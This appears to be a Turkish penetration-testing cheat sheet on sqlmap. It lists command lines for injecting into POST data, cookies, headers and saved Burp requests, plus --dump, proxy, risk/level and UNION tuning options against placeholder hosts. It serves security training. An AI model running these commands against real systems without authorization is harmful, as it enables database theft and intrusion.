 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/sql-map-ch/","created":"2024-12-14T17:52:03.179+03:00","updated":"2025-01-05T14:16:10.842+03:00"}
---
```



Not : SQLMap'deki `--data` seçeneği, **POST istekleri** sırasında sunucuya gönderilen verilerin belirtildiği bir parametredir. Bu seçenek, SQLMap'in POST tabanlı parametreler üzerinde SQL enjeksiyon testi yapmasını sağlar.

### 1- Curl Commands (Get İsteği - Inspect)

![Pasted image 20241214175823.png](/img/user/resimler/Pasted%20image%2020241214175823.png)


Clipboard içeriğini (Ctrl-V) komut satırına yapıştırarak ve orijinal curl komutunu sqlmap olarak değiştirerek, SQLMap'i aynı curl komutuyla kullanabiliyoruz:



### 2-GET/POST Requests

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

![Pasted image 20241214180558.png](/img/user/resimler/Pasted%20image%2020241214180558.png)


### 3-Full HTTP Requests (Burp)

`Copy > Copy Request Headers`

```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```shell-session
sqlmap -r req.txt
```

İpucu: '--data' seçeneğinde olduğu gibi, kaydedilen istek dosyasında da enjekte etmek istediğimiz parametreyi `'/?id=*'` gibi bir yıldız işaretiyle `(*)` belirtebiliriz.

### 4-Custom SQLMap Talepleri

#### cookie parametresi 

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

#### Header cookie parametresi 

```shell-session
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Aynı HTTP başlıklarının değerlerini belirtmek için kullanılan --host, --referer ve -A/--user-agent gibi seçenekler için de aynı şeyi uygulayabiliriz.


#### `--host`, `--referer` ve `-A/--user-agent` Seçenekleri

```shell-session
sqlmap -u 'http://www.example.com/' --host='www.example.com'

sqlmap -u 'http://www.example.com/' --referer='http://google.com'

sqlmap -u 'http://www.example.com/' -A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)'
```


#### `--random-agent` Seçeneği

Rastgele bir `User-agent` değeri seçmek için kullanılır.

```shell-session
sqlmap -u 'http://www.example.com/' --random-agent
```



#### `--mobile` Seçeneği

Tarayıcının bir mobil cihazı taklit etmesini sağlar.

```shell-session
sqlmap -u 'http://www.example.com/' --mobile
```


#### Diğer Başlıkların Test Edilmesi

```shell-session
# Host başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' --host='www.example.com*'



# Referer başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' --referer='http://google.com*'



# User-agent başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' -A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)*'
```



#### Tam İsteğe Özgü Enjeksiyon Testi

```shell-session
sqlmap -u 'http://www.example.com/' --data='uid=1&name=test' --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c*'
```


#### Full Kombinasyon 

```shell-session
sqlmap -u 'http://www.example.com/' \

--data='uid=1&name=test' \

--cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c*' \

--referer='http://google.com*' \

-A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)*' \

--random-agent
```



#### Custom HTTP Requests (JSON ve XML)

```shell-session
M1R4CKCK@htb[/htb]$ cat req.txt
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```


```shell-session
 sqlmap -r req.txt
```



### 5-BATCH

SQLMap'teki **`--batch`** parametresi, aracı tam otomatik modda çalıştırmaya yarar. Bu parametre, SQLMap'in çalışması sırasında kullanıcıdan herhangi bir onay veya ek bilgi istememesini sağlar.

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```



### 6- Store the Traffic (-t)

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```


### 7-Verbose Output (-v)

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```


### 8-Using Proxy (Burp)

```shell-session
sqlmap -r asd3.txt --batch --dump --proxy=http://127.0.0.1:8080
```

### 9-Prefix/Suffix

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

### 10-Level/Risk (5-3)


```shell-session
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

### 11-Status Codes

Eğer **TRUE** yanıtlarında HTTP durumu `200 OK`, ancak **FALSE** yanıtlarında `500 Internal Server Error` alıyorsanız, `--code` seçeneği ile SQLMap'e **200** durum kodunu doğruluk kriteri olarak kullanmasını söyleyebilirsiniz.

```shell-session
sqlmap -u "http://target.com/page?id=1" --code=200
```


### 12-Başlıklar

Hedefteki yanıtlar arasındaki fark, **HTML sayfa başlıkları** ile ayırt ediliyorsa:

```shell-session
sqlmap -u "http://target.com/page?id=1" --titles
```

### 13-Stringler

Yanıtların içinde belirli bir string varsa, bu string üzerinden doğrulama yapılabilir:

```shell-session
sqlmap -u "http://target.com/page?id=1" --string="success"
```


### 14-Sadece Metin

Yanıtlarda **HTML etiketleri** gibi fazlalıklar varsa ve yalnızca metin içeriği önemliyse:

```shell-session
sqlmap -u "http://target.com/page?id=1" --text-only
```


### 15-Teknikler

Belirli bir SQLi tekniğiyle sınırlı test yapmak isterseniz:

```shell-session
sqlmap -u "http://target.com/page?id=1" --technique=BEU
```


### 16-UNION SQLi Ayarları

UNION tabanlı SQL enjeksiyonunda **kolon sayısını manuel olarak belirtmek**

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-cols=5
```



### 17-UNION karakteri ayarlama (`--union-char`)

UNION tabanlı sorgularda varsayılan `NULL` yerine başka bir karakter kullanmak için: Eğer hedef, UNION sorgularında `NULL` kullanıldığında hata veriyor, ancak `"a"` gibi bir karakter kullanılınca çalışıyorsa, bu seçenekle alternatif bir karakter belirtebilirsiniz.

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-char='a'
```


### 18-Tablo ekleme (`--union-from`)

UNION sorgusunun sonunda bir tablo belirtmek gerekirse: Oracle veritabanında UNION sorgusunun doğru çalışması için `FROM users` gibi bir tablo adı eklenmesi gerekiyorsa bu seçenek kullanılır.

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-from=users
```


----
